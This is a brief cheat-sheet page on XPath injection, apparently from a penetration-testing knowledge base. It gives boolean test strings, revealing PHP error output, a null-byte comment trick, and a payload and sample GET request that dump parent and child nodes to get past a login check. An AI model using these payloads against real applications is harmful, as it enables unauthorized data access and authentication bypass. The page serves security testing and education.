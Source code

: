 # XPATH injection

## XPATH injection

Just like SQL injection, XPath allows you to do boolean logic, and you can try:

* ' and '1'='1 and you should get the same result.
* ' or '1'='0 and you should get the same result.
* ' and '1'='0 and you should not get any result.
* ' or '1'='1 and you should get all results.

### Enumeration

Like SQLi, try to inject quotes and similar chars.

```text
Warning: SimpleXMLElement::xpath(): Invalid predicate in /var/www/index.php on line 22
Warning: SimpleXMLElement::xpath(): xmlXPathEval: evaluation failed in /var/www/index.php on line 22
Warning: Variable passed to each() is not an array or object in /var/www/index.php on line 23
```

### Xpath expressions

`[PARENT NODES]/name[.='[INPUT]']/[CHILD NODES]`

### Comment out the rest of an XPATH expression

To comment out the rest of the XPath expression, you can use a NULL BYTE \(%00\)

### Get the parents and all child nodes

`user'%20or%201=1]/parent::*/child::node()%00`

### Injection example

`GET /?name='%20or%201=1]/parent::*/child::node()%00&password=test HTTP/1.1`

